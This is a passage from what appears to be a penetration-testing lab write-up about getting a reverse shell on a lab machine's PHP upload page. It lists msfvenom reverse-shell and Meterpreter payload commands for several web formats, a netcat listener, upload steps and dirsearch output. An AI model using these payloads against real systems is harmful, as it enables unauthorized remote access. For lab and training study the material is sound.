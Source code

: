 We can generate a reverse shell in different way. In this way, since we are on a PHP page (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads), we should use a PHP webshell.
To do this, we have different options:
* Use webshell from /usr/share/webshells/ folder (for example php-reverse-shell.php) by changing its content with your attacker_machine IP and the PORT you want to listen on;
* Make a webshell by <https://www.revshells.com/> in PHP;
* Use msfvenom:
    - Non-Meterpreter Web Payloads:
        - asp: msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp -o shell.asp
        - jsp: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.jsp
        - war: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o shell.war
        - php: msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o shell.php
    - Meterpreter Web Payloads:
        - asp: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp -o shell.asp
        - jsp: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.jsp
        - war: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o shell.war
        - php: msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.php

In general, it is important for you understanding the differences between the several kinds of reverse shells, i.e. Non-Meterpreter or Meterpreter payloads, Staged or Stageless payloads, Bind or Reverse Shells, Encrypted Shells and so on.

In our exercise, set LHOST=10.10.15.96 (change with yours) LPORT=443
If you have ufw enabled, just add the following rule: `ufw allow from 10.10.10.28 proto tcp to any port 80,443`

For first, execute the listener (use netcat only for Non-Meterpreter reverse shell):
    $sudo nc -lvnp 443
    
Then, just upload the reverse shell in the website. Note that the host periodically clean what we upload, probably because this file is labelled as malicious (or because it is a "feature" of the exercise).
Immediately we can use dirsearch to understand where the reverse shell has been uploaded:

    $sudo dirsearch -u http://10.10.10.28 -e php
    
      _|. _ _  _  _  _ _|_    v0.4.2
      (_||| _) (/_(_|| (_| )

      Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8922

      Output File: /opt/dirsearch/reports/10.10.10.28/_21-07-07_06-47-24.txt

      Error Log: /opt/dirsearch/logs/errors-21-07-07_06-47-24.log

      Target: http://10.10.10.28/

      [06:47:24] Starting: 
      [06:47:27] 403 -  276B  - /.ht_wsr.txt
      [06:47:27] 403 -  276B  - /.htaccess.bak1
      [06:47:27] 403 -  276B  - /.htaccess.orig
      [06:47:27] 403 -  276B  - /.htaccess.sample
      [06:47:27] 403 -  276B  - /.htaccess.save
      [06:47:27] 403 -  276B  - /.htaccess_extra
      [06:47:27] 403 -  276B  - /.htaccess_orig
      [06:47:27] 403 -  276B  - /.htaccess_sc
      [06:47:27] 403 -  276B  - /.htaccessBAK
      [06:47:27] 403 -  276B  - /.htaccessOLD
      [06:47:27] 403 -  276B  - /.htaccessOLD2
      [06:47:27] 403 -  276B  - /.htm
      [06:47:27] 403 -  276B  - /.html
      [06:47:27] 403 -  276B  - /.htpasswd_test
      [06:47:27] 403 -  276B  - /.htpasswds
      [06:47:27] 403 -  276B  - /.httr-oauth
      [06:47:28] 403 -  276B  - /.php
      [06:47:34] 301 -  308B  - /css  ->  http://10.10.10.28/css/
      [06:47:35] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/
      [06:47:35] 301 -  311B  - /images  ->  http://10.10.10.28/images/